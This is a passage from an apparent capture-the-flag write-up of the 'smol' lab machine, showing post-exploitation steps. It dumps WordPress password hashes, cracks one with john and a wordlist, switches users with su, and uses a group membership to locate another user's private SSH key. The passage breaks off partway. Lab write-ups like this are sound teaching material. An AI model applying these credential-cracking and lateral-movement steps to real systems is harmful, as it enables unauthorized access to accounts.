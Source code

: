 Creating a text file containing the usernames and hashes as follows:

```console
admin:$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX.
think:$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/
gege:$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
xavi:$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1
```
{: file="hashes.txt" }

Attempting to crack the hashes, we find that the hash for the `diego` user eventually cracks to `sandiegocalifornia`.

```console
$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
...
sandiegocalifornia (diego)
...
```

Unfortunately, we cannot use this password for **SSH**. However, we can use it from the existing shell with `su` to switch to the `diego` user and once switched, we can read the user flag located at `/home/diego/user.txt`.

```console
www-data@smol:/var/www/wordpress/wp-admin$ su - diego
Password:
diego@smol:~$ wc -c /home/diego/user.txt
33 /home/diego/user.txt
```

## Shell as think

Checking our group memberships as the `diego` user, we notice that we are part of the `internal` group. This membership grants us read access to other users' home directories.

```console
diego@smol:~$ id
uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)
diego@smol:~$ ls -la /home
total 24
drwxr-xr-x  6 root  root     4096 Aug 16  2023 .
drwxr-xr-x 18 root  root     4096 Mar 29  2024 ..
drwxr-x---  2 diego internal 4096 Aug 18  2023 diego
drwxr-x---  2 gege  internal 4096 Aug 18  2023 gege
drwxr-x---  5 think internal 4096 Jan 12  2024 think
drwxr-x---  2 xavi  internal 4096 Aug 18  2023 xavi
```

Checking the home directories of other users, we discover a private **SSH** key located in the `think` user's home directory at `/home/think/.ssh/id_rsa`.

```console
diego@smol:~$ ls -la /home/think
total 32
drwxr-x--- 5 think internal 4096 Jan 12  2024 .
drwxr-xr-x 6 root  root     4096 Aug 16  2023 ..
lrwxrwxrwx 1 root  root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think think     220 Jun  2  2023 .bash_logout
-rw-r--r-- 1 think think    3771 Jun  2  2023 .bashrc
drwx------ 2 think think    4096 Jan 12  2024 .cache
drwx------ 3 think think    4096 Aug 18  2023 .gnupg
-rw-r--r-- 1 think think     807 Jun  2  2023 .profile
drwxr-xr-x 2 think think    4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .viminfo -> /dev/null
diego@smol:~$ ls -la /home/think/.ssh
total 20
drwxr-xr-x 2 think think    4096 Jun 21  2023 .
```